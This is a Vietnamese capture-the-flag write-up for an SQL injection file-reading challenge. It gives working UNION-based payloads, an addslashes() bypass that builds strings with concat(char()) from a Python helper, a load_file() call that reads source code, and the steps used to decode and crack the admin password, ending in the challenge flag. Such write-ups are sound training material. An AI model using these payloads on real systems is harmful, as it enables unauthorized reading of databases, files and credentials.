 # SQL injection - File reading

**Title**: Reading file with SQL!

**Point**: 40 Points 

**Description**: Retrieve the administrator password.

## Solution:

Đầu tiên, như thông thường, ta phải tìm **Inject point**. Cái form đầu tiên chắc cú là hàng pha kè rồi, nhưng cứ thử nhập `1'`-> Nhưng mà không được

Vào link "Member" , thấy có một user **admin**. Vào đó thì thấy thông tin admin được xuất ra với truy vấn trên URL là : `?action=members&id=1`. Thử inject `1'` lần lượt vào 2 tham số thì thấy có `id` là bị vulneralbe.

<p align="center"><img src="https://user-images.githubusercontent.com/48288606/161073900-c173f14d-7d84-436b-ad3b-eb17e6530ea4.png"></p>

OK, giờ thử một payload cơ bản bypass như sau để thử filter:

```
1 or '1'='1' -- 
```

<p align="center"><img src="https://user-images.githubusercontent.com/48288606/161074933-76276c5f-235a-4ed9-864e-d12fab378b00.png"></p>

Vậy là payload của chúng ta bị xử lý bởi hàm `addslashes()` và chuỗi bị escape bởi backslash `\` -> Gây ra lỗi. Bypass cái này thì cơ bản rồi, tí nữa cần dùng mình sẽ nói sau

Tiếp, mình cần xác định xem số lượng cột trả về bằng `UNION`. Cái này cơ bản luôn; thử 1 cột, 2 cột cho đến khi thành công. Payload với số lượng cột đúng:

```
2 union select 1, 2, 3, 4 -- 
```

<p align="center"><img src="https://user-images.githubusercontent.com/48288606/161076239-688e1b7e-487f-4e35-aaed-9c2a666f8c56.png"></p>

**Lưu ý: Trừ cột 3 thì mình có thể hiển thị thông tin ở các cột khác**

Đến lúc thực hiện lấy từ `information_schema`. Đầu tiên, ta lấy tên các bảng:

```
2 union select 1, group_concat(table_name), 3, 4 from information_schema.tables -- 
```

<p align="center"><img src="https://user-images.githubusercontent.com/48288606/161076907-44976983-2575-42b3-8ad9-b39edbad2355.png"></p>

Vì có nhiều bảng mặc định trong `information_schema.tables` nên kết quả trả về hơi dài. Lướt lê lướt lả một hồi thì thấy table đáng chú ý là `member` nằm phía cuối, respect người ra đề (~ o ~)

Lấy thông tin tên các cột tương ứng với table `member` đã xác định:

```
2 union select 1, group_concat(column_name), 3, 4 from information_schema.columns where table_name='member' -- 
```

Payload trên chắc chắn không hoạt động vì có hàm `addslashes()` quấy rối như phân tích ở trên. Ở đây mình có thể không dùng trực tiếp **string** mà dùng kiểu nối chuỗi điển hình với hàm `concat()` và `char()`. Ví dụ chuỗi `'abc'` sẽ thành `concat(char(97) , char(98) , char(99) )`. Dùng [Code Python](Generating_string.py) sau để xử lý cho tiện:

```python
################# GENERATING STRING #################

a = "member" # String need to be generated

result = "concat("
for i in range (len(a)):
    if i != len(a) - 1:
        result += "char(" + str(ord(a[i])) + ") , "
    else:
        result += "char(" + str(ord(a[i])) + ") )"
print(result)
```
Output: `concat(char(109) , char(101) , char(109) , char(98) , char(101) , char(114) )` . Đưa payload này vào `WHERE` statement:

```
2 union select 1, group_concat(column_name), 3, 4 from information_schema.columns where table_name=concat(char(109) , char(101) , char(109) , char(98) , char(101) , char(114) ) -- 
```

<p align="center"><img src="https://user-images.githubusercontent.com/48288606/161078745-51023b61-c21c-41a3-b734-bcfcae689768.png"></p>

Có các tên cột, ta có thể truy xuất dữ liệu. Kiểm tra user **admin** nằm ở dòng trả về thứ mấy: 

```
2 union select 1, group_concat(member_login), 3, 4 from member -- 
```

<p align="center"><img src="https://user-images.githubusercontent.com/48288606/161079477-6e91dd33-e1c6-4f69-a8b2-43fd58a2477d.png"></p>

Xem ra chỉ có một user là **admin**. Giờ thì lấy password thôi

```
2 union select 1, group_concat(member_password), 3, 4 from member -- 
```

<p align="center"><img src="https://user-images.githubusercontent.com/48288606/161079759-25d8a20a-cf87-4b34-a775-f20c4631abef.png"></p>

Password sao nhìn trông giống dạng **Encode base64** thế nhỉ. Nhưng mà có flag rồi thì submit thôi :))

Nhưng mà submit hộ , có đúng đâu 😥. Vậy là password mình đã bị encode thật rồi, nên mình sẽ decode nó ra [tại đây](https://www.base64decode.org/)

Nó ra thế này `TPWU_�_UU[_QPZWTTV�Q[QT`. Alright, những trường hợp thường thấy này là do có sự can thiệp của bên back-end server, encrypt chuỗi đầu vào rồi mới đưa vào database. Chúng ta khó có thể biết được cách encrypt nếu không có source code, ngẫm lại bài này là `File reading` nên hẳn là mình phải tìm cách đọc file.

GG được một hồi thì đa số đều suggest dùng hàm `load_file()` với tham số truyền vào là **absolute path**, path truyền vào là string và mình có thể bypass với cách dùng Python như trên. Điều khó ở đây là làm sao để tìm được cái **full path**. Đến bước này thì mình phải đoán một tí:

Đoạn này mình ngồi search nhưng vẫn không hiểu làm sao người ta tìm được path là `/challenge/web-serveur/ch31/index.php`. Có thể là từ mấy challenge có dùng **SSH connection**, nhưng thôi mình xin chôm tại cái này. Bypass string bằng python:

```python
a = "/challenge/web-serveur/ch31/index.php" # String need to be generated

result = "concat("
for i in range (len(a)):
    if i != len(a) - 1:
        result += "char(" + str(ord(a[i])) + ") , "
    else:
        result += "char(" + str(ord(a[i])) + ") )"
print(result)
```

Output:
```
concat(char(47) , char(99) , char(104) , char(97) , char(108) , char(108) , char(101) , char(110) , char(103) , char(101) , char(47) , char(119) , char(101) , char(98) , char(45) , char(115) , char(101) , char(114) , char(118) , char(101) , char(117) , char(114) , char(47) , char(99) , char(104) , char(51) , char(49) , char(47) , char(105) , char(110) , char(100) , char(101) , char(120) , char(46) , char(112) , char(104) , char(112) )
```

Đưa vào payload:

```
2 union select 1, load_file(concat(char(47) , char(99) , char(104) , char(97) , char(108) , char(108) , char(101) , char(110) , char(103) , char(101) , char(47) , char(119) , char(101) , char(98) , char(45) , char(115) , char(101) , char(114) , char(118) , char(101) , char(117) , char(114) , char(47) , char(99) , char(104) , char(51) , char(49) , char(47) , char(105) , char(110) , char(100) , char(101) , char(120) , char(46) , char(112) , char(104) , char(112) )), 3, 4 -- 
```

<p align="center"><img src="https://user-images.githubusercontent.com/48288606/161085221-9122172e-572b-4f12-8b49-b9f51dfe6f92.png"></p>

Tham khảo toàn bộ source nguồn [tại đây](index.php)
Chú ý đến đoạn làm thế nào để print ra được `Authentication success !!`, tức là password đúng:

```php
 $pass = sha1($_POST['password']);
 $result = mysqli_query($GLOBALS["___mysqli_ston"], "SELECT member_password FROM member WHERE member_login='".$user."'");
 if(mysqli_num_rows($result) == 1) 
 { 
 $data = mysqli_fetch_array($result);
 if($pass == stringxor($key, base64_decode($data['member_password'])))
 { // authentication success print "
Authentication success !!
```
Ở đây password được so sánh theo công thức: `sha1(input_password) == decode_base64(member_password) ^ key ?`. Với `member_password` mình đã có ở trên, còn `$key` thì mình mở mã nguồn ra (Ctrl + U) là thấy: `$key = "c92fcd618967933ac463feb85ba00d5a7ae52842";`

Giờ thì mình lấy lại mấy hàm cần thiết và chạy code PHP để giải mã:

```php
<?php
    function stringxor($o1, $o2) {
        $res = '';
        for($i=0;$i<strlen($o1);$i++)
            $res .= chr(ord($o1[$i]) ^ ord($o2[$i]));        
        return $res;
    }
    $key = "c92fcd618967933ac463feb85ba00d5a7ae52842";
    $member_password = "VA5QA1cCVQgPXwEAXwZVVVsHBgtfUVBaV1QEAwIFVAJWAwBRC1tRVA==";
    $result = stringxor($key, base64_decode($member_password) );
    echo $result;
?>
```

Output: **77be4fc97f77f5f48308942bb6e32aacabed9cef**. Password mình nhập vào hash với `SHA1` ra được đối chiếu với chuỗi output này, mình thử crack cái hash này ra và hy vọng nó "đủ yếu". Dùng [Crack Station](https://crackstation.net/)

<p align="center"><img src="https://user-images.githubusercontent.com/48288606/161094566-52dd9538-b282-453a-bf12-5f2a894d7f9e.png"></p>

Flag: **superpassword**

